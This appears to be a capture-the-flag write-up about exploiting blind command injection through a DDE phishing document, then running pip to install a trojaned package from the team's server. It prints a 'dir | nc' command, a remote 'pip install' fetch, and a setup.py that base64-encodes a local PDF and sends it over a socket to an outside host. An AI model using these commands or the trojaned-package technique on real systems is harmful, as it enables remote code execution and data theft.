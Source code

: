 Early on in the challenge, the EWA and EMI systems had some reliabilty issues.
Using the DDE exploit it took a while to get any command execution to work.
Any attempt to run a more complicated command would fail.

We weren't sure if our commands were failing due to quoting or escaping issues or
even how to tell.  Eventually it was determined that even a previously known
working =dir | nc host port= command was failing almost every time.  Any
experiment we could come up with was tainted by the lack of reliability on the
backend.  Not only was it a blind command injection exploit, but if an attempt
failed we had no way of knowing why.  We had to run something we KNEW would
work, and that would confirm it had been executed.

We were able to use =dir= and =nc= to determine that Python was installed, and then
were able to run =python -V=.  Once we knew we could run Python and pass it
arguments, we ran {{{abbr(the standard python package installation tool, pip)}}}:

#+BEGIN_SRC
python -m pip install https://my.vps.domain/test.tar.gz
#+END_SRC

A minute later, we got a hit for =test.tar.gz=!  The benefit of this method is
that the command itself does not require any special characters that may need
escaping.  There are no quotes or pipes or backslashes to worry about.  The fact
that =pip= will initially request the file from our server also meant we knew the
phishing DDE exploit worked.  We could use this method as a solid base to run
further experiments.  Once the =pip= command was worked out, the docx file did
not need to be changed between runs.

With =pip= working, it was a simple matter of putting together a trojaned
=setup.py= in the style of [[https://twitter.com/JustinAzoff/status/881163562739277824][previous shenanigans seen in the wild]]

The first trojaned package was written by hand:

#+BEGIN_SRC python
# setup.py
from distutils.core import setup
setup(name='upload_doc',
      version='1.2',
)
#hax

try:
    import base64
    import socket
    with open("C:/GreatBookPage7.pdf", "rb") as f:
        document = f.read()
    encoded = base64.encodestring(document)

    s=socket.socket()
    s.connect(('my.vps.domain',44665))
    s.send(encoded)
    s.close()
except Exception as e:
    print("oops")
    print(e)
#+END_SRC

We then ran

#+BEGIN_SRC
python setup.py sdist
#+END_SRC

to build the upload_doc-1.2.tar.gz tarball.  By copying this file to the VPS,
and having pip install it, it would run our Python code.  Unfortunately EWA/EMI
was having a lot of issues at this time, and it took almost 2 days before we were
able to see this work.  Fortunately, because we were now using a known good docx
file, we knew the problem was not on our end.

The trojanpkg.py module automates this by building a tarball in memory based on
an arbitrary injected code block.  This enables the destination address to be
templated in on the fly, instead of hardcoded in the package.  This enabled
other members of the team to run the exploit code without having to edit the
source to match their environment.

The trojanpkgweb.py module builds on top of trojanpkg.py to start up a web
server that dynamically serves up a trojaned package for any url.
